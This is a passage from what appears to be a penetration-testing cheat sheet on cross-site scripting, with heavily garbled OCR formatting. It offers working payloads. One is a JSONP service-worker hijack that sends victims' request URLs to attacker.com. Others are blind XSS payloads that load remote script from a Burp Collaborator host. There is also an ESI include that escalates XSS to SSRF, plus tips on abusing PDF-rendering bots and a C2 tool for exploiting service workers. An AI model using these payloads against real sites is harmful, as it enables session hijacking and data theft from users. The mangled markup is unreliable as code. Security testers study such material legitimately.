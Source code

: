  \`\`\` In case of abusing a vulnerable JSONP endpoint you should put the value inside \`var sw\`. For example: \`\`\`javascript var sw = "/jsonp?callback=onfetch=function\(e\){ e.respondWith\(caches.match\(e.request\).then\(function\(response\){ fetch\('https://attacker.com/fetch\_url/' + e.request.url\) }\) \)}//"; \`\`\` There is \*\*C2\*\* dedicated to the \*\*exploitation of Service Workers\*\* called \[\*\*Shadow Workers\*\*\]\(https://shadow-workers.github.io/\) that will be very useful to abuse these vulnerabilities. \#\#\# Polyglots {% embed url="https://github.com/carlospolop/Auto\\_Wordlists/blob/main/wordlists/xss\\_polyglots.txt" %} \#\#\# Blind XSS payloads \`\`\`markup "&gt;**![](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/domain/xss) **"&gt; &gt;**[**Click Me For An Awesome Time**](javascript:eval%28'd=document;%20_%20=%20d.createElement%28\'script\'%29;_.src=\'//domain\';d.body.appendChild%28_%29'%29)**function b\(\){eval\(this.responseText\)};a=new XMLHttpRequest\(\);a.addEventListener\("load", b\);a.open\("GET", "//0mnb1tlfl5x4u55yfb57dmwsajgd42.burpcollaborator.net/scriptb"\);a.send\(\); "&gt; "&gt;"&gt;**

"&gt;

"&gt;

$.getScript\("//domain"\)

"&gt;![](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/x)

"&gt;

&lt;p title="![](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/x)"&gt;

"&gt;

```text
### Brute-Force List

{% embed url="https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/xss.txt" %}

## XSS Abusing other vulnerabilities

### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```python
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!  
More information about this technique here: [**XSLT**](../xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md).

### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.  
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.
